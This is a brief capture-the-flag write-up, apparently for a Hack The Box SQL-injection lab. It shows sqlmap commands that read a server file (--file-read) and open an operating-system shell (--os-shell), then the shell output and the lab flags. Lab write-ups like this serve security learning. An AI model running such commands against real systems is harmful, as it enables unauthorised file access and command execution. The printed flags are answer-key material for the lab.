 ![](Pasted%20image%2020250204180202.png)

We can use this:

```
python3 sqlmap.py -r os.txt --file-read "/var/www/html/flag.txt" --batch --threads 10
```

We get the following:

```
HTB{5up3r_u53r5_4r3_p0w3rful!}
```

## Second
---

We can use this command in order to get a shell:

```
python3 sqlmap.py -r os.txt --os-shell --threads 10 --batch
```

We can see our shell:

![](Pasted%20image%2020250204180603.png)

If we do `ls /`, we can see the following:

```
os-shell> ls /
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output:
---
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
---
```

We can simply read our flag by doing `cat /flag.txt`

```
os-shell> cat /flag.txt
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'HTB{n3v3r_run_db_45_db4}'
```

Flag is `HTB{n3v3r_run_db_45_db4}`

